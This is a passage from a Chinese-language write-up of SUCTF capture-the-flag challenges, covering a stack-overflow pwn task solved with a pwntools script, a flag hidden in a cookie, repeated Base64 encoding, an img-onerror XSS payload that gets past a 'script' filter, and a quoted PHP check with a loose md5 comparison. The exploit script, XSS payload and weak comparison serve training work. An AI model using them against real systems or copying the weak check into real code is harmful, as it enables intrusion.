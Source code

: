 因此思路是先输入 112 个字节，然后覆盖 `main` 的返回指针为 `0804865D`，然后输入 `zhimakaimen` 即可，话说那个输出伪终端提示符的句子也真是……

```python
from pwn import *
r = remote('xxx.xxx.xxx.xxx', 10000)
r.send('A' * 112 + '\x5d\x86\x04\x08')
r.interactive()
```

不知道为啥，我在最后写上 `r.send('zhimakaimen')` 并不管用，因此只能手动输入了。

```text
let's begin!
the flag is :SUCTF{dsjwnhfwidsfmsainewmnci}
now,this chengxu wil tuichu.........
pwn100@test-vm-x86:$$ zhimakaimen
SUCTF{5tack0verTlow_!S_s0_e4sy}
```

# [Web] flag 在哪？

打开网址，抓包可以发现在 HTTP 头里面有 Cookie：

```http
Cookie:flag=suctf%7BThi5_i5_a_baby_w3b%7D
```

即可得出 flag。

# [Web] 编码

打开网页，里面有个输入框和一个被 disabled 掉的提交按钮，抓包发现 HTTP 头中有 Password：

```http
Password: VmxST1ZtVlZNVFpVVkRBOQ==
```

扔到 Base64 里面解出来是 `VlROVmVVMTZUVDA9`，一开始看到这编码我一脸懵逼，但是后来发现只需要再扔进 Base64 解几次就行了……最终解出来是 `Su233`。是够 233 的，把它输进去，用 Chrome 修改网页结构让按钮变得可以提交，最终得出 flag：`suctf{Su_is_23333}`。

# [Web] XSS1

只有一个输入框和提交按钮，过滤了 `script` 字符串，于是想到了用标签的 `onerror` 属性：

```text
</pre><img src=# onerror=alert(1)>
```

提交之后可得 flag：`suctf{too_eaSy_Xss}`。

# [Web] PHP是世界上最好的语言

网页内容为空，查看源代码可以看到一段 PHP：

```php
if(isset($_GET["password"]) && md5($_GET["password"]) == "0")
    echo file_get_contents("/opt/flag.txt");
else
    echo file_get_contents("xedni.php");
```

